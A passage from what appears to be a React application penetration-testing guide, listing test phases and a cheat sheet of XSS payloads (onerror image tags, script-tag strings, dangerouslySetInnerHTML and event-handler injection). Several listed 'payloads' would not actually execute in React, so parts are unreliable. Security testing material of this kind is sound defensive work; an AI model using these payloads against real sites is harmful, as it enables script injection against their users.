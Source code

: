 ### Phase 2: Vulnerability Assessment
1. Test client-side vulnerabilities
2. Test state management issues
3. Test component vulnerabilities
4. Test routing vulnerabilities

### Phase 3: Exploitation
1. Attempt React attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### JSX XSS Payloads
```jsx
// dangerouslySetInnerHTML XSS
<div dangerouslySetInnerHTML={{__html: userInput}} />

// Template injection
{`<img src=x onerror=alert('XSS')>`}

// Expression injection
{userInput && <div>{userInput}</div>}
```

### State Injection Payloads
```javascript
// State injection
this.setState({
  userInput: "<script>alert('XSS')</script>"
});

// Props injection
<Component userInput="<script>alert('XSS')</script>" />
```

### Event Handler Payloads
```jsx
// Event handler injection
<button onClick={userInput}>Click me</button>

// Event handler manipulation
<input onChange={userInput} />
```

---

## References
- [React Security Best Practices](https://reactjs.org/docs/security.html)
- [React Security Considerations](https://reactjs.org/docs/security.html)
- [React Vulnerability Examples](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/React)
- [React Security Testing](https://github.com/dolevf/react-security-testing)
- [React Attack Vectors](https://github.com/dolevf/react-attack-vectors)